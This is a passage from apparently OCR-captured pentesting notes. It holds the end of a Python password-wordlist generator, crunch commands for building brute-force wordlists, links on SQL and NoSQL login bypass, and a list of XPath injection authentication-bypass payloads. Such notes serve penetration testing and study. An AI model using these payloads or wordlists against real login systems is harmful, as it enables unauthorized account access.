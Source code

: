     # Convert the set of permutations to a list.
    permutations_list = [list(gen) for gen in permutations_set]
    
    print("\\033[1;32m✅ Saving our work in [passwords.txt] WORDLIST..... \\033[0m")
    time.sleep(5)
    # Write the list of permutations to a file.
    count = 0
    with open('passwords.txt', 'w') as file:
        for password in permutations_list:
            file.write("".join(password) + "\\n")
            count += 1
    # print number of passwords generated
    print("\\033[1;32m[+] Number of possible passwords:\\033[0m", count)
    print("\\033[1;32m                                     🙌 THAT'S IT !,YOU'RE DONE                \\033[0m")
    ```
    

Or using tools like **Crunc**

```bash
crunch 4 6 0123456789ABCDEF -o crunch1.txt #From length 4 to 6 using that alphabet
crunch 4 4 -f /usr/share/crunch/charset.lst mixalpha # Only length 4 using charset mixalpha (inside file charset.lst)

@ Lower case alpha characters
, Upper case alpha characters
% Numeric characters
^ Special characters including spac
crunch 6 8 -t ,@@^^%%
```

### **SQL Login Bypass**

[https://book.hacktricks.xyz/pentesting-web/login-bypass/sql-login-bypass](https://book.hacktricks.xyz/pentesting-web/login-bypass/sql-login-bypass)

### **NoSQL authentication Bypass**

[https://book.hacktricks.xyz/pentesting-web/nosql-injection#basic-authentication-bypass](https://book.hacktricks.xyz/pentesting-web/nosql-injection#basic-authentication-bypass)

### **XPath Injection authentication bypass**

```bash
' or '1'='1
' or ''='
' or 1]%00
' or /* or '
' or "a" or '
' or 1 or '
' or true() or '
'or string-length(name(.))<10 or'
'or contains(name,'adm') or'
'or contains(.,'adm') or'
'or position()=2 or'
admin' or '
admin' or '1'='2
```
